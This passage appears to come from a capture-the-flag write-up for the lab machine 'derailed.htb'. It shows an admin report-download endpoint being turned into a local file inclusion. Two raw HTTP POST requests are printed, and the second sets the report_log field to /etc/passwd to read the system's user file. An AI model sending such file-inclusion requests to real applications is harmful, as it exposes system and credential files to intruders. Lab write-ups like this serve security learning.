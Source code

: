 ## LFI

While I checked out the admin panel I discovered that I as an administrator am able to download reports.

That's a candidate for a nice local file inclusion 

### Original Request

```http
POST /administration/reports HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/administration
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=TiLYZIXXX8CU2LriSxudexcexpRaPkIrY7WCZgjx7FQ1158UOiivkNDNH8spedEAJHAAneVmDR7TG52E5IBVaNjtjSDftzrY%2F%2FHRKJ0fFn8oX56UjfTE3Dhtt97yrIBC%2BZbctzUmwOAUoTpmM%2FqgM4glh%2BZcH4wEKAC1PRnz0Gyc%2BvBcIFqAWA5CNVvi5hMuOj0cO077oxOan9fFnpKyS%2BIv4zqbVl6hvsTE0QFEoeeWxJrnPcnaVKEx5YO3TBiuABMMKfW8OEOPIV9WqaS8jGBBoWjKHwkUJRycichC8Y%2BCqym2X9Mk84eEef7i--lPj1DYuDKnw7odz3--e9mW0ktnlbIQvXiCHC72uA%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=d8k7ShkPXhKVnovD4eLRvWNJFYV7JyRzLYl4R9VIftHrcWWdkB6s9ULwTbnOwh_qXhLA-0VKqblf87x4lcs3JQ&report_log=report_21_11_2022.log&button=
```

### Get /etc/passwd

This will show us all the users that are currently on the machine and give us an overview

```http
POST /administration/reports HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/administration
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=TiLYZIXXX8CU2LriSxudexcexpRaPkIrY7WCZgjx7FQ1158UOiivkNDNH8spedEAJHAAneVmDR7TG52E5IBVaNjtjSDftzrY%2F%2FHRKJ0fFn8oX56UjfTE3Dhtt97yrIBC%2BZbctzUmwOAUoTpmM%2FqgM4glh%2BZcH4wEKAC1PRnz0Gyc%2BvBcIFqAWA5CNVvi5hMuOj0cO077oxOan9fFnpKyS%2BIv4zqbVl6hvsTE0QFEoeeWxJrnPcnaVKEx5YO3TBiuABMMKfW8OEOPIV9WqaS8jGBBoWjKHwkUJRycichC8Y%2BCqym2X9Mk84eEef7i--lPj1DYuDKnw7odz3--e9mW0ktnlbIQvXiCHC72uA%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=d8k7ShkPXhKVnovD4eLRvWNJFYV7JyRzLYl4R9VIftHrcWWdkB6s9ULwTbnOwh_qXhLA-0VKqblf87x4lcs3JQ&report_log=/etc/passwd&button=
```
